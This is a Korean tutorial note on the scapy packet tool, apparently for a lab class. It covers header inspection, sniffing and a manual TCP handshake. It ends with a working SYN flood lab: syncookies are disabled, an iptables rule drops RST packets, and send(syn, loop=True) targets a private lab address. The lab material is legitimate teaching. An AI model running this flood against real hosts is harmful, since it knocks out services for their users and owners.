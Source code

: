 # scapy

파이썬으로 작성된 패킷 조작 도구

패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공

스카피는 계층 레이어를 쌓을 수 있다

<https://www.itlkorea.kr/data/scapy-pocket-guide0.2.pdf>

### scapy 실행

```bash
scapy
```

### 지원하는 프로토콜을 확인

```
ls()
```

![scapyls](../imgs/scapyls.png)

### TCP 헤더 정보를 출력

```bash
ls(TCP)
```

![scapy ls(TCP)](../imgs/scapy1.png)

```bash
# 현재 설정되어 있는 TCP헤더 정보를 출력
TCP().display()

# 사용가능한 기능을 확인
lsc()
```

![scapy TCP().display()](../imgs/scapy2.png)

```bash
# 현재 설정되어 있는 IP헤더 정보를 출력
IP().display()
# or
ip = IP()    #  변수로 지정
ip.display()
```

![scapy IP().display()](../imgs/scapy3.png)

```bash
# ip destination 값을 192.168.44.144로 변경
ip.dst="192.168.44.144"
ip.display()
```

![scapy ip.display()](../imgs/scapy4.png)

```bash
# scapy는 전송 계층을 쌓을 수 있다. 캡슐래이션 하는 방법을 알아보자
ip = IP()
tcp = TCP()
packet = ip/tcp
packet.display()
```

![scapy packet.display()](../imgs/scapy5.png)

```bash
# sniffing하기
sniff()

# sniffing 결과를 sf 변수에 저장
sf = sniff()    # 실행하고 웹브라우저에서 사이트에 접속해보자
sf.display()

# 10개의 정보만 스니핑
sf = sniff(count=10)
sf.display()

# 스니핑 한 결과의 0번째를 자세하게 보여준다
sf[0].show()
```

## scapy를 이용한 3way handshaking

```bash
ip = IP()
ip.display()

ip.dst = "192.168.44.144"
ip.display()

tcp = TCP()
tcp.display()
# 플래그가 s로 되어있다

# sport 를 변경해준다
# RandNum 파이썬에서 랜덤넘버 생성 함수
tcp.sport = RandNum(1024, 65535)
tcp.display()

# 패킷을 만들어 쌓는다
syn = ip/tcp

#
syn_ack = sr1(syn)
syn_ack.display()

#
ack = ip/TCP(sport=syn_ack[TCP].dport, dport=80, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq+1)
send(ack)

```

wireshark로 확인
3way 핸드 쉐이크를 하려면 빠르게 입력해야 한다
셸스크립트를 작성해서 빠르게 입력되도록 한다

싱크플러딩
싱크 아크/싱크 아크를 보내야하는데
아크를 안보내면 싱크가 계속 기다린다

## TCP SYN Flooding

kali1 (피해자) 클라이언트에서 원활한 실습을 위해 설정을 변경한다

```bash
root@kali:~# sysctl -a | grep syncookies
net.ipv4.tcp_syncookies = 1    # syncookies를 사용 = backlog que에 SYN 패킷을 저장하지 않음
sysctl: reading key "net.ipv6.conf.all.stable_secret"
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"

root@kali:~# sysctl -w net.ipv4.tcp_syncookies=0
net.ipv4.tcp_syncookies = 0
root@kali:~# sysctl -a | grep syncookies
sysctl: reading key "net.ipv6.conf.all.stable_secret"
net.ipv4.tcp_syncookies = 0
sysctl: reading key "net.ipv6.conf.default.stable_secret"
sysctl: reading key "net.ipv6.conf.eth0.stable_secret"
sysctl: reading key "net.ipv6.conf.lo.stable_secret"


```

@Kali#2 에서 RST 패킷이 외부로 나가지 못 하도록 방화벽에 등록

## TCP SYN Flooding

```bash
# scapy에서 나온다
exit()

# kali2 공격자 pc에서 rst가 나가는 것을 막는다. kali2에서 아래 명령어를 작업
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

# scapy로 들어간다
scapy

ip = IP()
ip.dst="192.168.44.144"
tcp = TCP()
tcp.dport = 80
tcp.sport = RandNum(1024,65535)
tcp.flags = "S"
syn = ip/tcp
send(syn, loop=True)

싱크플러딩 공격
공격자가 피공격자에게 아크를 보내야 하는데 싱크만 계속 보낸다

```

kali1 피해자 클라이언트에서 확인

```bash
# kali1에서 와이어샤크를 띄운다(패킷확인)
wireshark  # ip.addr == 공격자주소 입력

# 터미널에서 실행
netstat -an | grep -i syn_recv

싱크 리시브 상태만 가지고 있다
ddos 공격
```
